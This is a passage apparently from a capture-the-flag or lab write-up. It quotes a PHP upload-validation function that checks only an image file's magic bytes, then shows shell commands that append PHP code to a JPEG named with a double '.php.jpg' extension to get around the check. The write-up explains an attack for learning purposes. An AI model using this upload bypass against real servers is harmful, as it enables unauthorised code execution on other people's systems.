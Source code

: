 * `lib.php`: the most important fact from this script is the `check_file_type()` function, which only checks that the file has the correct magic bytes at the start:

```php
<?php
function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
      {
      return $file_type;
      }
    }
  return $file['type'];
  }

  function check_file_type($file) {
    $mime_type = file_mime_type($file);
    if (strpos($mime_type, 'image/') === 0) {
        return true;
    } else {
        return false;
    }  
  }
  ?>
```

Okay so at this point I had a good idea of what to do next. By uploading a valid image called `test.php.jpg` with some php code appended at the end I could bypass the check for the extension and the valid image. Hopefully, the server would recognise the extension of the file as php code and run the appended script.

The commands I used were:

```bash
cp test.jpg test_good.php.jpg
echo "<?php phpinfo();?>" >> test_good.php.jpg
```

